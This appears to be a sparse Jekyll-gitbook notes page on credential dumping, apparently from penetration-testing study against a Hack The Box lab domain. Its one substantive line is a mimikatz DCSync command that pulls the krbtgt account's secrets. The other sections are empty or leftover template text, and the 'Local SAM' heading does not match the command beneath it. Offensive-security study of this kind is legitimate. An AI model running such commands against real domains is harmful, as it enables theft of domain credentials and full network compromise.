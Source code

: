 ```yaml
---
title: 2 - Credentials Dumping
author: RFS
date: 2023-06-02
category: Layer 2
layout: post
cover: https://sighingnow.github.io/jekyll-gitbook/assets/dinosaur.gif
---
```


## Local SAM
```powershell
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
```
## VLANs

## SDP

> ##### TIP
>
> No need to push generated HTML bundle.
{: .block-tip }

[1]: https://pages.github.com
[2]: https://github.com/sighingnow/jekyll-gitbook/fork
[3]: https://pages.github.com/themes
[4]: https://docs.github.com/en/pages/setting-up-a-github-pages-site-with-jekyll/adding-a-theme-to-your-github-pages-site-using-jekyll
[5]: https://github.com/sighingnow/jekyll-gitbook/fork
[6]: https://github.com/sighingnow/jekyll-gitbook/blob/master/_config.yml
